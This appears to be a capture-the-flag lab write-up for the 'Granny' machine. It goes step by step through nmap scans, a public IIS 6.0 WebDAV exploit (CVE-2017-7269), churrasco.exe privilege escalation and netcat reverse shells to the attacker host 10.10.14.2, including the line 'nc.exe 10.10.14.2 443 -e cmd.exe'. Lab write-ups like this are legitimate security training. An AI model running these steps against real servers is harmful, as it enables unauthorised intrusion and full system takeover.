 **Ping** 
```
ping 10.10.10.15
```
![[Pasted image 20240615173135.png]]

Nmap Default Scan
```
nmap 10.10.10.15 -oN dnmap
```
![[Pasted image 20240615174521.png]]

Nmap Script and Service scan
```
nmap 10.10.10.15 -sCV -A -oN snmap
```
![[Pasted image 20240615174547.png]]

Nmap All Port Scan
```
nmap 10.10.10.15 -p- --min-rate 10000 -oN anmap
```
![[Pasted image 20240615174601.png]]

Port 80
![[Pasted image 20240615174626.png]]



Will Search Public Exploit For IIS 6.0
![[Pasted image 20240615174944.png]]
Will use this exploit https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
![[Pasted image 20240615175832.png]]

I have saved the python code in a file named exp.py and ran the exploit 
```
python2 exp.py 10.10.10.15 80 10.10.14.2 80
```
![[Pasted image 20240615175055.png]]

```
rlwrap nc -nvlp 80
```
![[Pasted image 20240615175127.png]]
Got shell.

Will move jump to Privilege escalation...!

Our Privileges
```
whoami /priv
```
![[Pasted image 20240615175321.png]]

```
Systeminfo
```
![[Pasted image 20240615175404.png]]
looks like there must be some kernel exploit.

Ran exploit suggester
```
python3 wes.py systeminfo.txt -c
```
![[Pasted image 20240615193657.png]]

Gonna use this exploit
![[Pasted image 20240615193738.png]]
In exploit-db there is no pre compiled binary, So i found one,
Found the Pre compiled binary:https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

So once downloaded, I have Transferred the binary to target using SMB Share
```
impacket-smbserver kali .
```
![[Pasted image 20240615193949.png]]

```
copy \\10.10.14.2\kali\churrasco.exe
```
![[Pasted image 20240615194029.png]]

Lets check whether the binary is working or not
```
churrasco.exe whoami
```
![[Pasted image 20240615194122.png]]

So No I will transfer nc.exe to the target machine and get a shell as admin
```
churrasco.exe -d "nc.exe 10.10.14.2 443 -e cmd.exe"
```
![[Pasted image 20240615194217.png]]

Got reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240615194245.png]]

Found the location of flags
```
dir /s /b C:\user.txt
```
```
dir /s /b C:\root.txt
```
![[Pasted image 20240615194400.png]]

Got the flags.
**user.txt**
![[Pasted image 20240615194440.png]]

**root.txt**
![[Pasted image 20240615194515.png]]



Done with Granny......:) 
